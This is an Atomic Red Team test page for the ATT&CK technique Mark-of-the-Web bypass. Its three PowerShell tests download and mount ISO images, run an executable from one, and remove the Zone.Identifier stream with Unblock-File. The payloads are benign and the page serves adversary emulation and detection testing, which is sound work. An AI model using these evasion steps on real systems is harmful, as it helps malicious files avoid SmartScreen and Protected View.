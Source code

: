 # T1553.005 - Mark-of-the-Web Bypass
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1553/005)
<blockquote>Adversaries may abuse specific file formats to subvert Mark-of-the-Web (MOTW) controls. In Windows, when files are downloaded from the Internet, they are tagged with a hidden NTFS Alternate Data Stream (ADS) named <code>Zone.Identifier</code> with a specific value known as the MOTW.(Citation: Microsoft Zone.Identifier 2020) Files that are tagged with MOTW are protected and cannot perform certain actions. For example, starting in MS Office 10, if a MS Office file has the MOTW, it will open in Protected View. Executables tagged with the MOTW will be processed by Windows Defender SmartScreen that compares files with an allowlist of well-known executables. If the file in not known/trusted, SmartScreen will prevent the execution and warn the user not to run it.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)(Citation: Intezer Russian APT Dec 2020)

Adversaries may abuse container files such as compressed/archive (.arj, .gzip) and/or disk image (.iso, .vhd) file formats to deliver malicious payloads that may not be tagged with MOTW. Container files downloaded from the Internet will be marked with MOTW but the files within may not inherit the MOTW after the container files are extracted and/or mounted. MOTW is a NTFS feature and many container files do not support NTFS alternative data streams. After a container file is extracted and/or mounted, the files contained within them may be treated as local files on disk and run without protections.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mount ISO image](#atomic-test-1---mount-iso-image)

- [Atomic Test #2 - Mount an ISO image and run executable from the ISO](#atomic-test-2---mount-an-iso-image-and-run-executable-from-the-iso)

- [Atomic Test #3 - Remove the Zone.Identifier alternate data stream](#atomic-test-3---remove-the-zoneidentifier-alternate-data-stream)


<br/>

## Atomic Test #1 - Mount ISO image
Mounts ISO image downloaded from internet to evade Mark-of-the-Web. Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, and mount the image. The provided sample ISO simply has a Reports shortcut file in it. Reference: https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/

**Supported Platforms:** Windows


**auto_generated_guid:** 002cca30-4778-4891-878a-aaffcfa502fa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | Path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;T1553.005.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
Mount-DiskImage -ImagePath "#{path_of_iso}"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: T1553.005.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/T1553.005.iso -OutFile "#{path_of_iso}"
```




<br/>
<br/>

## Atomic Test #2 - Mount an ISO image and run executable from the ISO
Mounts an ISO image downloaded from internet to evade Mark-of-the-Web and run hello.exe executable from the ISO. 
Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, mount the image, and run the executable from the ISO image that will open command prompt echoing "Hello, World!". 
ISO provided by:https://twitter.com/mattifestation/status/1398323532988399620 Reference:https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/,

**Supported Platforms:** Windows


**auto_generated_guid:** 42f22b00-0242-4afc-a61b-0da05041f9cc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | Path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;FeelTheBurn.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
$keep = Mount-DiskImage -ImagePath "#{path_of_iso}" -StorageType ISO -Access ReadOnly
$driveLetter = ($keep | Get-Volume).DriveLetter
invoke-item "$($driveLetter):\hello.exe"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
Stop-process -name "hello" -Force -ErrorAction ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: FeelTheBurn.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/FeelTheBurn.iso -OutFile "#{path_of_iso}"
```




<br/>
<br/>

## Atomic Test #3 - Remove the Zone.Identifier alternate data stream
Remove the Zone.Identifier alternate data stream which identifies the file as downloaded from the internet.
Removing this allows more freedom in executing scripts in PowerShell and avoids opening files in protected view.

**Supported Platforms:** Windows


**auto_generated_guid:** 64b12afc-18b8-4d3f-9eab-7f6cae7c73f9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_to_download | File that will be downloaded to test against. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/README.md|
| file_path | File to have the Zone.Identifier removed. | String | $env:tmp&#92;ReadMe.md|


#### Attack Commands: Run with `powershell`! 


```powershell
Unblock-File -Path #{file_path}
```

#### Cleanup Commands:
```powershell
Set-Content -Path #{file_path} -Stream Zone.Identifier -Value '[ZoneTransfer]','ZoneId=3'
```



#### Dependencies:  Run with `powershell`!
##### Description: A test file with the Zone.Identifier attribute must be present.
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}) { EXIT 0 } else { EXIT 1 }
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest #{file_to_download} -OutFile #{file_path}
Set-Content -Path #{file_path} -Stream Zone.Identifier -Value '[ZoneTransfer]','ZoneId=3'
```




<br/>
